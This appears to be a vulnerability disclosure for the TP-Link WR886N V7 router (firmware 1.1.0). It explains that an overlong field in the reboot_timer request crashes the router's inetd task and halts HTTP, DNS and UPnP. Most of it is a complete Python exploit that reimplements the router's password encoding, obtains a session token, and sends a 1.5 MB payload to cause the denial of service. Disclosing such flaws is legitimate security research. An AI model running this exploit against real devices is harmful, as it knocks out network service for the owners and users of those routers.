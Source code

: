 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `reboot_timer`, user can setup reboot scheduled task with http post request. An normal request looks like below.

![](normal_post_request.png)

After setup reboot scheduled, `reboot_timer` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `reboot_timer` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.    
  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)


burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}
burp0_json = {
  "reboot_timer": {
    "name": "AAA",
    "table": "reboot_timer_rule",
    "para": {
      "mon": "1",
      "tue": "1",
      "wed": "1",
      "thu": "1",
      "fri": "1",
      "sat": "1",
      "sun": "1",
      "name": "12341231",
      "reboot_time": "01%3A00"
    }
  },
  "method": "add"
}

burp0_json['reboot_timer']['name'] = '%s' % ('A' * int(1.5 * 1024 * 1024))

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)

```